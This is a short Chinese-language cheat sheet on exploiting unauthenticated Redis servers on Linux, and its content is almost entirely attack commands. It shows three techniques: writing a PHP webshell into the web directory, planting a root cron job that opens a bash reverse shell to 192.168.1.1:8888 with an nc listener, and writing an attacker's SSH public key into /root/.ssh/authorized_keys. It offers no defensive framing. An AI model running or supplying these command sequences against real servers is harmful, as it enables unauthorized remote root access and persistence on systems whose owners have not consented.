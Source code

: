 ## redis未授权（LINUX）

#### 一、写入WEBSHELL

**利用前提**

> 1.知道web目录的路径
>
> 2.redis有web目录的写入权限

过程：

```
--> config set dir  /var/www/html

--> config set dbfilename  shell.php

--> set x " <?php phpinfo()?>"

--> save
```

#### 二、计划任务弹shell

**利用前提**

> 1. redis以root权限运行

```
--> set  x "\n\n***  bash -i >& /dev/tcp/192.168.1.1/8888 0>&1 \n\n"

--> config set dir /var/spool/cron/crontabs/

--> config set dbfilename root

--> save
```

> > 在攻击机中监听 8888 端口

```
--> nc -lvvp 8888
```

#### 三、ssh免密登录

> 1.在攻击机中生成一对公私钥

```
--> ssh-keygen -t rsa
```

> 生成的`id_rsa`室私钥，`id_rsa.pub`是公钥，将公钥写入目标机

```
--> config set dir /root/.ssh

--> config set dnfilename authorized_keys

--> set x "id_rsa.pub的内容"

--> save
```

> 在利用私钥去登录ssh

`ssh -i id_rsa  root@192.168.1.1`

